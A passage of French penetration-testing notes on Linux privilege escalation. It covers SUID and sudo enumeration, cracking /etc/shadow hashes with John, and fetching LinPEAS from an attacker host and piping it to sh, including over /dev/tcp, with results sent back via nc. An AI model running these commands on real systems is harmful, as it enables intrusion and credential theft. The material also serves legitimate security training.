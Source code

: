 Pour lister les commande avec les droits au niveau du groupe :
```
find / -user root -perm -2000 2> /dev/null
```

Pour lister les commande exécutable en tant que sudo par l'utilisateur actuel
```
sudo -l
```

https://gtfobins.github.io/

#### Shadow
`/etc/shadow` `/etc/passwd`

```bash
unshadow passwd.txt shadow.txt > passwords.txt

john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

```

### Script d'automatisation
#### LinPeas
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
LinPeas permet de détecté les élévation de privilège possible
```zsh
# Sur la machine cible si elle a accès à internet
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

# En local
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

sudo python3 -m http.server 80 #Hote
curl 192.168.56.1/linpeas.sh | sh #Cible

# Sans curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Hote
cat < /dev/tcp/10.10.10.10/80 | sh #Cible

# Execution en mémoire et envoie du resultat à l'hote
nc -lvnp 9002 | tee linpeas.out #Hote
curl 192.168.56.1:80/linpeas.sh | sh | nc 10.10.14.20 9002 #Cible
```

#### Linuxprivchecker
https://github.com/linted/linuxprivchecker

#### Linux-smart-enumeration
https://github.com/diego-treitos/linux-smart-enumeration

#### Linux-exploit-suggester
https://github.com/The-Z-Labs/linux-exploit-suggester
